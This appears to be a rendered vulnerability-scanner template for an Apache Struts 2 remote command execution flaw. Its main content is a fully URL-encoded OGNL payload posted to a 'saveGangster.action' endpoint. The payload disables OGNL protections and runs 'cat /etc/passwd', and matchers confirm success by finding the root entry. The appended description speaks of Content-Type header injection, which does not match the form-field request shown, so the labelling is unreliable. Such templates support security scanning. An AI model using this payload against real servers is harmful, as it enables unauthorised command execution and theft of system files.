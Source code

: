 - Method - POST
- Method - POST

### URL

- {{BaseURL}}/integration/saveGangster.action
  - name=%25%7b%28%23%64%6d%3d%40%6f%67%6e%6c%2e%4f%67%6e%6c%43%6f%6e%74%65%78%74%40%44%45%46%41%55%4c%54%5f%4d%45%4d%42%45%52%5f%41%43%43%45%53%53%29%2e%28%23%5f%6d%65%6d%62%65%72%41%63%63%65%73%73%3f%28%23%5f%6d%65%6d%62%65%72%41%63%63%65%73%73%3d%23%64%6d%29%3a%28%28%23%63%6f%6e%74%61%69%6e%65%72%3d%23%63%6f%6e%74%65%78%74%5b%27%63%6f%6d%2e%6f%70%65%6e%73%79%6d%70%68%6f%6e%79%2e%78%77%6f%72%6b%32%2e%41%63%74%69%6f%6e%43%6f%6e%74%65%78%74%2e%63%6f%6e%74%61%69%6e%65%72%27%5d%29%2e%28%23%6f%67%6e%6c%55%74%69%6c%3d%23%63%6f%6e%74%61%69%6e%65%72%2e%67%65%74%49%6e%73%74%61%6e%63%65%28%40%63%6f%6d%2e%6f%70%65%6e%73%79%6d%70%68%6f%6e%79%2e%78%77%6f%72%6b%32%2e%6f%67%6e%6c%2e%4f%67%6e%6c%55%74%69%6c%40%63%6c%61%73%73%29%29%2e%28%23%6f%67%6e%6c%55%74%69%6c%2e%67%65%74%45%78%63%6c%75%64%65%64%50%61%63%6b%61%67%65%4e%61%6d%65%73%28%29%2e%63%6c%65%61%72%28%29%29%2e%28%23%6f%67%6e%6c%55%74%69%6c%2e%67%65%74%45%78%63%6c%75%64%65%64%43%6c%61%73%73%65%73%28%29%2e%63%6c%65%61%72%28%29%29%2e%28%23%63%6f%6e%74%65%78%74%2e%73%65%74%4d%65%6d%62%65%72%41%63%63%65%73%73%28%23%64%6d%29%29%29%29%2e%28%23%71%3d%40%6f%72%67%2e%61%70%61%63%68%65%2e%63%6f%6d%6d%6f%6e%73%2e%69%6f%2e%49%4f%55%74%69%6c%73%40%74%6f%53%74%72%69%6e%67%28%40%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%40%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%27%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64%27%29%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29%29%29%2e%28%23%71%29%7d&age=10&\_\_checkbox_bustedBefore=true&description=

### Matchers

**Type - word**

- part - header
- words
  1. Content-Type: text/html

**Type - regex**

- part - body
- regex
  1. root:.\*:0:0:
- condition - and

**Type - status**

- status
  1. 200

---

# Apache Struts 2 - Remote Command Execution

## Description

- Apache Struts 2 2.3.x before 2.3.32 and 2.5.x before 2.5.10.1 is vulnerable to remote command injection attacks through incorrectly parsing an attacker's invalid Content-Type HTTP header. The Struts vulnerability allows these commands to be executed under the privileges of the Web server.
- severity - critical
- tags - apache,kev,msf,cve,cve2017,struts,rce
